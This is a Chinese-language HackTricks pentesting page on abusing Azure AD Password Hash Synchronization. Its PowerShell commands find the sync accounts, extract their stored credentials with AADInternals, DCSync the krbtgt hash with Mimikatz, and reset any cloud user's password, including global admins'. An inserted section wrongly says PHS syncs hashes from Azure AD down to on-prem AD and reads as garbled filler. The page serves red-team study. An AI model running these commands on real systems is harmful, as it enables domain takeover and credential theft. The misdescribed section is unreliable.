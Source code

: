 # PHS - 密码哈希同步

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 HackTricks 的 PDF，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>

## 基本信息

**密码哈希同步**是实现混合身份的一种登录方法之一。Azure AD Connect 将来自本地 Active Directory 实例的用户密码的哈希同步到基于云的 Azure AD 实例中。

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

这是公司用来将本地 AD 与 Azure AD 同步的**最常用方法**。

所有**用户**和**密码哈希的哈希**都从本地同步到 Azure AD。然而，**明文密码**或**原始哈希**不会发送到 Azure AD。\
此外，**内置**的安全组（如域管理员...）**不会被同步**到 Azure AD。

**哈希同步**每隔**2分钟**发生一次。然而，默认情况下，Azure AD **不会同步**密码过期和帐户过期。因此，一个**本地密码已过期**（未更改）的用户仍然可以使用旧密码继续**访问 Azure 资源**。

当本地用户想要访问 Azure 资源时，**身份验证将在 Azure AD 上进行**。

**PHS**对于诸如**身份保护**和 AAD 域服务等功能是必需的。

## 枢纽

当配置了 PHS 时，会自动创建一些**特权帐户**：

* 在本地 AD 中自动创建帐户**`MSOL_<installationID>`**。此帐户被赋予**目录同步帐户**角色（参见[文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地 AD 中具有**复制（DCSync）权限**。
* 在 Azure AD 中创建一个帐户**`Sync_<name of on-prem ADConnect Server>_installationID`**。此帐户可以在 Azure AD 中**重置任何用户**（同步或仅云）的密码。

这两个特权帐户的密码**存储在安装 Azure AD Connect 的服务器上的 SQL 服务器中**。管理员可以以明文形式提取这些特权用户的密码。

如果**安装了 Azure AD Connect 的服务器**加入了域（在文档中推荐），可以使用以下方法找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### AzureAD -> On-prem

#### 密码哈希同步（PHS）

密码哈希同步（PHS）是一种将Azure AD中的用户密码哈希同步到本地Active Directory（AD）的方法。这种方法允许用户在云和本地环境之间使用相同的密码进行身份验证。

#### PHS的工作原理

1. Azure AD Connect将用户密码哈希同步到本地AD。
2. 当用户尝试在本地环境中进行身份验证时，本地AD会将密码哈希与用户提供的密码进行比较。
3. 如果密码匹配，则用户被授权访问本地资源。

#### PHS的安全风险

1. 如果攻击者能够获取本地AD的密码哈希，他们可以使用这些哈希来进行离线破解攻击。
2. 如果本地AD的密码策略较弱，攻击者可以更容易地破解密码哈希。
3. 如果攻击者能够访问Azure AD Connect服务器，他们可以获取到密码哈希。

#### 防御措施

1. 使用强密码策略来保护本地AD中的密码。
2. 定期更改本地AD中的密码。
3. 限制对Azure AD Connect服务器的访问权限。
4. 监控并检测对Azure AD Connect服务器的未经授权访问尝试。

#### 总结

密码哈希同步（PHS）是一种将Azure AD中的用户密码哈希同步到本地AD的方法。然而，它也存在一些安全风险，因此需要采取相应的防御措施来保护密码哈希的安全性。
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
### On-prem -> AzureAD

通过入侵`Sync_*`账户，可以重置任何用户的密码（包括全局管理员）
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
也有可能修改**仅云用户**的密码（尽管这是意外的）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
### 无缝单点登录

可以使用PTA与无缝单点登录一起使用，但这可能会导致其他滥用。在以下链接中进行检查：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版本的HackTricks，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks商品**](https://peass.creator-spring.com)
* 发现[**The PEASS Family**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
